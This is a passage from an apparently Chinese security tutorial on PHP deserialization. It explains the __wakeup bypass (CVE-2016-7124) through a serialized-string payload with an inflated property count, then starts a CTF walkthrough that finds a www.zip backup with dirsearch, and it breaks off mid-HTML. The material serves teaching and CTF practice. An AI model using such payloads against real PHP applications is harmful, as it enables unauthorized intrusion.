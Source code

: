 ![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-31e65fabd63c36943186e61b8cd592f61a38250e.png)

2、绕过\_\_wakeup(CVE-2016-7124)
-----------------------------

```php
版本：
PHP5 < 5.6.25
PHP7 < 7.0.10
```

利用方式：序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过\_\_wakeup的执行。

对于下面这样一个自定义类：

```php
<?php
class test{
public $a;
public function __construct(){
$this->a = 'abc';
}
public function __wakeup(){
$this->a='666';
}
public function __destruct(){
echo $this->a;
}
}
$t='O:4:"test":1:{s:1:"a";s:4:"yyds";}';
unserialize($t);
```

如果执行unserialize('O:4:"test":1:{s:1:"a";s:4:"yyds";}');输出结果为666；

而把对象属性个数的值增大执行unserialize('O:4:"test":2:{s:1:"a";s:4:"yyds";}');输出结果为yyds。

例题：\[极客大挑战 2019\]PHP

题目给出提示，网站存在备份。用dirsearch扫描出存在www.zip 备份文件，下载下来开始审计。

index.php里规定了反序列化的参数,而且调用了class.php

```php

<head>
  <meta charset="UTF-8">
  <title>I have a cat!</title>
  <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/meyer-reset/2.0/reset.min.css">
      <link rel="stylesheet" href="style.css">
</head>
<style>
    #login{   
        position: absolute;   
        top: 50%;   
        left:50%;   
        margin: -150px 0 0 -150px;   
        width: 300px;   
        height: 300px;   
    }   
    h4{   
        font-size: 2em;   
        margin: 0.67em 0;   
    }
</style>
<body>

<div id="world">
```